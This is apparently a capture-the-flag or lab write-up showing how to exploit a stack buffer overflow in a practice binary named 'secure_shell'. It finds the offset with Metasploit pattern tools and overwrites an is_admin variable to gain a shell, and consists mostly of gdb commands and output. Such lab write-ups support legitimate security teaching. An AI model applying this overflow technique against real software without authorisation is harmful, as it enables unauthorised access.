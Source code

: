 ### Solution

This document covers the use of buffer overflows to overwrite local variables
to influence behavior.

### Identification

Run the application and see that it asks for user input:
```
$ ./secure_shell
Please enter secure shell password:
hello
Access denied
user@7ea4c3f8c
```

Let's try piping a large string as user input:

```
$ python3 -c 'print("A" * 64)' | ./secure_shell
Please enter secure shell password:
Access denied
Segmentation fault
```

As it segfaults with large user input values, let's investigate a potential buffer overflow.

### gdb

Run the application with gdb:
```
gdb ./secure_shell
```

Checking the security settings to confirm there's no stack canaries:

```
pwndbg> checksec
[*] '/home/user/app/secure_shell'
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

We can also use `info file` to see more about the file type, elf32-i386.
We could also have used `file` on the binary to see the similar information:
```
$ file ./secure_shell
./secure_shell: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux.so.2,
BuildID[sha1]=72f83d4b511b8241034ad220114c516414fbbefc,
for GNU/Linux 3.2.0, with debug_info, not stripped
```


We can see the available functions in the binary by examining the symbol table:
```
$ info functions
```

We can either explicitly put a breakpoint in main and run:
```
b *main
run
```

Or just use the `start` command.

### Calculating buffer size

If we didn't know the buffer size we can create an arbitrary length value:

```
ruby  ./tools/exploit/pattern_create.rb -l 50
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
```

Find the value of admin:
```
p/x is_admin
$6 = 0x31624130
```

Find the buffer size:
```
ruby  ./tools/exploit/pattern_offset.rb -l 50 -q 0x31624130
[*] Exact match at offset 32
```

So we can write 32 characters before hitting the `is_admin` value in the stack.

### Final Solution

Verify the payload works as expected:

```
python3 ./override.py | xxd
```

Remember to keep stdin open:

```
(python3 override.py; echo ''; cat) | ./secure_shell
```
